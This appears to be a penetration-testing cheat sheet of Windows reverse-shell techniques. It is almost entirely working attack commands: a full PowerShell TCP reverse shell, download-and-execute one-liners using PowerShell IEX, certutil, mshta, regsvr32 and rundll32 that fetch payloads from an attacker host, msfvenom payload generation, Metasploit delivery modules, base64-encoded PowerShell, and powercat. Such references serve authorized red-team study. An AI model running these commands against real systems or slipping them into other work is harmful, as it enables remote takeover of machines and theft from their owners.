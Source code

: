 # Shells

### Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

### powershell.exe

```text
$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

#### Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

### mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

### rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

### regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

### certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

### powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

### more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```


